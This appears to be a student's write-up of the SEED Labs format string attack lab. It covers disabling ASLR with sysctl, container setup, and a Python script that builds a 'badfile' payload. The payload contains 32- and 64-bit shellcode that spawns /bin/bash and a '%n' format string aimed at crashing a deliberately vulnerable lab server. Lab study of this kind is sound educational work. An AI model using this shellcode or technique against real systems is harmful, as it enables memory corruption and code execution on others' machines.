

# **Week 7**

## **SEED Labs**

### Format String Attack Lab

### **Setup**

* First we turned off the Linux Kernel countermeasures, such as Address Space Randomization, because it randomizes the starting address of heap and stack making it harder to guess and guessing addresses is one of the critical steps of the string-formatting attack, we disabled it with the command shown on the lab guide:

```shell
sudo sysctl -w kernel.randomize_va_space=0
```


* Then we run a makefile that will compile the program which we will exploit its vulnerability and install it into fmt-containers folder.


* Now we will run in the background a container.


* Using the dockps command, we will obtain this list and get the second's shell,
note that by writing the first few characters will be sufficient as long they are unique among all the containers.


## **Task 1**

* Sending a small message to the server


* We will receive the following message in the target container's console


* Using the following python script we will get an output file named badfile that we will input to the server, we want to cause a crash so the message with the smiley faces can't be printed.

#### build_string.py

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 20              # Changed start from 0 to 20
content[start:start + len(shellcode)] = shellcode

#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"
# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

* String concatenated with a "%n" causes the crash, nothing in this formation option is printed, only the number of characters written so far is stored in the pointed location.

* If an attacker wants to control the format string he will be able to write in to abritary positions of the memory.

### Result



* If we compare, this output with the one we did before we see that the message with the smilley faces wasn't printed meaning that the format program might have crashed.

## **Task 2**

---